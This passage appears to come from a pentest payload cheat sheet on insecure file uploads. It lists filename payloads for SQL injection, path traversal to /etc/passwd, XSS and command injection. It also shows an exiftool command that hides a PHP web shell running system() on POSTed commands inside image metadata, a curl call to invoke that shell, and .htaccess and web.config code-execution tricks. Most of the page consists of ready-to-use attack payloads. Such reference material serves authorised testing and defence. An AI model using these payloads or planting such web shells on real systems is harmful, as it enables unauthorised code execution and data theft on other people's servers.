 ### Filename vulnerabilities

Sometimes the vulnerability is not the upload but how the file is handled after. You might want to upload files with payloads in the filename.

- Time-Based SQLi Payloads: e.g. `poc.js'(select*from(select(sleep(20)))a)+'.extension`
- LFI/Path Traversal Payloads:  e.g. `image.png../../../../../../../etc/passwd` 
- XSS Payloads e.g. `'"><img src=x onerror=alert(document.domain)>.extension`
- File Traversal e.g. `../../../tmp/lol.png`
- Command Injection e.g. `; sleep 10;`

Also you upload:
- HTML/SVG files to trigger an XSS
- EICAR file to check the presence of an antivirus

### Picture Compression

Create valid pictures hosting PHP code. Upload the picture and use a **Local File Inclusion** to execute the code. The shell can be called with the following command : `curl 'http://localhost/test.php?0=system' --data "1='ls'"`.

- Picture Metadata, hide the payload inside a comment tag in the metadata.
- Picture Resize, hide the payload within the compression algorithm in order to bypass a resize. Also defeating `getimagesize()` and `imagecreatefromgif()`.
    - [JPG](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l): use createBulletproofJPG.py
    - [PNG](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createPNGwithPLTE.php
    - [GIF](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createGIFwithGlobalColorTable.php


### Picture with custom metadata

Create a custom picture and insert exif tag with `exiftool`. A list of multiple exif tags can be found at [exiv2.org](https://exiv2.org/tags.html)

```ps1
convert -size 110x110 xc:white payload.jpg
exiftool -Copyright="PayloadsAllTheThings" -Artist="Pentest" -ImageUniqueID="Example" payload.jpg
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```

### Configuration Files

If you are trying to upload files to a :
- PHP server, take a look at the [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) trick to execute code.
- ASP server, take a look at the [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config) trick to execute code.

Configuration files examples
- [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess)
- [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config)
- [httpd.conf](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Busybox%20httpd.conf)
- [\_\_init\_\_.py](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Python%20__init__.py)
